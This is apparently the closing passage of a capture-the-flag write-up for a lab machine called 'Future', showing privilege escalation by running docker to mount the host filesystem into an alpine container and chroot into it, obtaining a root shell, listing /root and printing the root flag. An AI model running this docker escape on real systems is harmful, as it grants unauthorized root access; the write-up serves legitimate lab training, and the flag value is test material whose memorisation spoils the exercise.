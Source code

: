 ![Firefox - GTFOBins `docker` SUID](./assets/screenshots/vulnyx_future_firefox_gtfobins_docker_suid.png)

```
marty.mcfly@future:~$ /usr/bin/docker run -v /:/mnt --rm -it alpine chroot /mnt sh

Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
fe07684b16b8: Pull complete 
Digest: sha256:8a1f59ffb675680d47db6337b49d22281a139e9d709335b492be023728e11715
Status: Downloaded newer image for alpine:latest

# whoami

root
```

```
# ls -la /root/

total 32
drwx------  4 root root 4096 Mar 25  2024 .
drwxr-xr-x 18 root root 4096 Feb 12  2024 ..
lrwxrwxrwx  1 root root    9 Mar 23  2024 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
-rw-------  1 root root   20 Mar 25  2024 .lesshst
drwxr-xr-x  3 root root 4096 Feb 12  2024 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwx------  2 root root 4096 Feb 12  2024 .ssh
-r--------  1 root root   33 Mar 23  2024 root.txt

# cat /root/root.txt

69c965c53f43ec68d503247796604b3d 🚩
```

<img src="https://hackmyvm.eu/img/correctflag.png" alt="Machine Hacked!" width="150"/>

---
---
